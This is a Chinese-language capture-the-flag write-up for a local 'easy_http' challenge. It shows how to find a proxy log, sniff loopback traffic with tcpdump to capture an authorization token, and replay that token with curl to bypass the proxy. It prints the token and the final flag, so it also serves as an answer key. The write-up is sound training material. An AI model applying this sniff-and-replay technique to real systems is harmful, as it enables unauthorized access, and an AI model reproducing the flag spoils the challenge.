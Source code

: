 # easy_http

## 题解

根据提示访问 `http://127.79.0.1`。

```log
/rknazo/chal/06-easy_http # curl http://127.79.0.1
You can access the flag via '/flag'.
你可以通过访问 '/flag' 获得 flag.
```

根据给出的提示访问 `http://127.79.0.1/flag`

```log
/rknazo/chal/06-easy_http # curl http://127.79.0.1/flag
Proxy detected.
检测到了代理.
```

看到 “检测到了代理” 可能会比较疑惑，看到 `tips.txt` 给出的提示中说 “可能日志能帮助你解题, 日志就丢在大家都喜欢丢的地方”，可去寻找日志。

细心的人可能在做题之前看到过 `/rknazo/run.py` 中有对日志路径的定义:

```python
LOGDIR = "/var/log/rknazo"
```

就算没看到也能通过 “日志就丢在大家都喜欢丢的地方” 猜测出日志在 `/var/log` 下。

通过查看日志文件 `/var/log/rknazo/easy_http-stdout.log`，可看到前面访问内部处理过程。

通过对日志的简要分析，可得出以下信息:

1. `http://127.79.0.1` 对应的 Proxy 应用；`http://127.79.0.68` 对应为 Notifier 应用
2. 用户访问 `http://127.79.0.1/` 之后 Proxy 应用向 Notifier 应用请求创建 Real server 应用
3. 随后 Proxy 应用向创建获得的 Real server 地址传输用户的请求
4. Proxy 应用将从 Real server 返回的数据回传给用户
5. Real server 在 10 秒后或者收到数据后被销毁

此时可尝试访问 `http://127.79.0.68/`，可发现服务器回传了 “Authorization needed. 需要认证.”。

此时可尝试利用 `tcpdump` 工具抓取中间传输的信息。

访问 `http://127.79.0.1/`，对 `tcpdump` 输出进行精简可得到以下内容:

```log
# tcpdump -i lo -A
localhost.35732 > 127.79.0.1.80:
GET / HTTP/1.1
Host: 127.79.0.1
User-Agent: curl/8.11.1
Accept: */*

localhost.58186 > 127.79.0.68.80:
GET /create HTTP/1.1
host: 127.79.0.68:80
authorization: rknazo{1t's-@-GI@NT-St3p-to-f1nd-1t!}

127.79.0.68.80 > localhost.58186:
HTTP/1.1 200 OK
content-length: 18
date: Tue, 31 Dec 2024 10:53:08 GMT

127.79.169.61:9754

localhost.35438 > 127.79.169.61.9754:
GET / HTTP/1.1
host: 127.79.169.61:9754
user-agent: curl/8.11.1
accept: */*
from: proxy@rknazo

127.79.169.61.9754 > localhost.35438:
HTTP/1.1 200 OK
content-length: 79
date: Tue, 31 Dec 2024 10:53:08 GMT

You can access the flag via '/flag'.
```

可发现 Proxy 在请求 Real server 时带上了 `from: proxy@rknazo`，而 Real server 对 `from` Header 进行了检测，从而检测到了代理而拒绝发送 flag。

通过上面获取到的数据包可以得到访问 Notifier 服务所需的认证字段 `authorization: rknazo{1t's-@-GI@NT-St3p-to-f1nd-1t!}`，于是可以模拟上述过程获得 flag。

```log
/rknazo/chal/06-easy_http # curl http://127.79.0.68/create --header "authorization: rknazo{1t's-@-GI@NT-St3p-to-f1nd-1t!}"
127.79.3.24:50526

/rknazo/chal/06-easy_http # curl http://127.79.3.24:50526/flag
flag{96ed0668-a328-013b-fa06-060f09f1045b}
```
